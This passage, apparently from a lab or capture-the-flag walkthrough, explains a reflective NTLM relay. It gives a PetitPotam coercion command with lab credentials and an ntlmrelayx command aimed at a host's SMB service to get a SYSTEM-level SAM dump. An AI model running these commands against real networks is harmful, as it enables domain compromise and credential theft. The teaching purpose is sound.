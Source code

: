 However, coercing authentication to the maliciously crafted DNS name will "trick" the target machine into thinking that it's authenticating to itself locally. Furthermore, a `SYSTEM` token will be used to authenticate, which will allow us to perform a SAM dump.

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SCRIPTORIUM.jess.kingdom
```

![](./assets/img/sysadmin/996bb389b60b87f2d8c7ea59625199b4.png)

```
ntlmrelayx.py -t "smb://SCRIPTORIUM.jess.kingdom" -smb2support
```
